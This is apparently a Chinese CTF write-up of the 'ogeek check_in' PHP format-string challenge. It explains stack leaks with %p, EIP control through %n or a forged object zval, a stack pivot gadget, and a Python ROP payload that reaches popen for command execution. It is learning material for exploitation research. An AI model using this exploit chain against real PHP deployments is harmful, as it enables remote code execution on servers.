 通过上述的分析，可以知道在控制格式化字符串的`format`参数之后可以使用`%p`来泄露栈数据，而且至少有两种控制EIP的方法：

1. 利用 `%n`，修改栈上存储的返回地址，然后跳转到指定的位置执行。
2. 利用 `%Z`，在可控的位置伪造一个`object`类型的fake`zval`，然后伪造`object`类型的函数指针数组`handlers`中的`get`或者`cast_object`函数指针为需要执行的指令地址，就可以控制EIP。


由于php一般都运行在web环境中，无法直接交互，所以像直接修改返回地址为 `one_gadget` 的利用方法已经无法使用了，为了实现任意命令执行，仅控制EIP是不够的，而且还需要控制RDI，甚至RSI。控制寄存器的方法一般就是使用ROP chian，但是问题在于64位系统中函数调用时通过寄存器传参，并且zend内部注册的变量(我们的输入)一般都是存储在堆上，这两方面原因导致我们无法控制栈上的数据，所以就无法进行ROP chain，所以唯一可行的方案就是找能够进行栈迁移的 `gadget`，将栈迁移到可以控制的数据区域，接着再进行rop。@wupcoo大佬出的题目十分的经典，本文也是在学习他的题目后写的，下面就他的题目提供的exp进行讲解。

### ogeek check_in writeup 

题目地址[https://github.com/wonderkun/CTF_web/tree/master/PHP_PWN_LEARN/format_string](https://github.com/wonderkun/CTF_web/tree/master/PHP_PWN_LEARN/format_string)，原writeup地址[http://www.wupco.cn/?p=4504](http://www.wupco.cn/?p=4504)。


wupcoo原始的exp先泄露了`libphp.so`的加载基址，然后再libphp.so中找rop，这里泄露`libphp.so`加载基址的方法十分的凑巧，主要是利用`CppClass_render`函数再调用`render_s`函数之前会调用函数 `zend_read_property_ex`。

```c++
ZEND_API zval *zend_read_property_ex(zend_class_entry *scope, zval *object, zend_string *name, zend_bool silent, zval *rv) /* {{{ */
{
	zval property, *value;
	zend_class_entry *old_scope = EG(fake_scope);

	EG(fake_scope) = scope;

	if (!Z_OBJ_HT_P(object)->read_property) {
		zend_error_noreturn(E_CORE_ERROR, "Property %s of class %s cannot be read", ZSTR_VAL(name), ZSTR_VAL(Z_OBJCE_P(object)->name));
	}

	ZVAL_STR(&property, name);
	value = Z_OBJ_HT_P(object)->read_property(object, &property, silent?BP_VAR_IS:BP_VAR_R, NULL, rv);

	EG(fake_scope) = old_scope;
	return value;
}
```
这里 `Z_OBJ_HT_P(object)->read_property` 是一个指向libphp中某个函数的函数指针，是存储在r9中的，没有被清空，所以通过泄露R9就可以获得libphp.so的加载基址，但是这种办法不通用，所以被我删除了。

exp中首先使用 700个 `%p` 泄露栈数据，获取一个自主可控的地址空间作为将来栈迁移的基址heap_addr以及libc.so的基址，有由于RCX的值完全可控，所以可以让RCX指向heap_addr，然后在heap_addr的位置布局object类型的fake zval，通过控制`object.handlers->cast_object`来控制EIP，将EIP劫持到指令`push [rcx]; rcr [rbx+0x51],0x41 ; pop rsp ;ret ;`的位置来进行栈迁移，并同时布局rop chain用于控制RDI和RSI，最后跳转到`popen`进行任意命令执行。栈数据构造的代码以及注释如下：

```python

exp = p64(heap_addr+0x10) # heap_addr; 布局 fake zval, zval.value.obj= heap_addr+0x10 , size0f(zval)  = 0x10        
exp += p64(0x8)           # heap_addr+0x8 ;   zval.type = 0x8
exp += p64(heap_addr+0x20)# heap_addr+0x10 ;  布局 zend_object,   sizeof(zend_object) = 0x38 0x7f9746cd29a8
exp += bytes("AAAAAAAA",encoding="latin-1")  # heap_addr+0x18   
exp += p64(pop_ret)        # heap_addr+0x20       # 
exp += p64(heap_addr+0x30) # heap_addr + 0x28    zend_object.handlers  = heap_addr + 0x30
exp += p64(pop_rdi)        # heap_addr + 0x30    布局 zend_object_handlers: sizeof(zend_object_handlers) = 0xe0 
exp += p64(heap_addr+0xe8) # heap_addr + 0x38    指向command字符串
exp += p64(pop_rsi)        # heap_addr + 0x40    
exp += p64(heap_addr+0xe0) # heap_addr + 0x48    指向字符串"r"
exp += p64(call_popen)     # heap_addr + 0x50    popen函数地址 
```
